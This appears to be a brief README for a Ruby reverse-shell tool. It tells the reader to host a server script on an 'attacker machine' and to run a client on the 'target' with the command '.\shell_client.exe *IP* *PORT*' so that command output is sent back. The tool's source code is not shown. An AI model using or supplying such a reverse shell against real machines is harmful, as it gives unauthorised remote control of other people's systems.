 # Ruby reverse shell

These are scripts/exes that can be used as a better reverse shell. It's basically a reverse shell that sends the output of the executions back to you which wouldn't be possible with netcat.




Host the shell_server.rb on the attacker machine and then use the shell_client.exe / shell_client.rb to connect to it by calling it with these arguments on the target.

```
.\shell_client.exe *IP* *PORT*
```

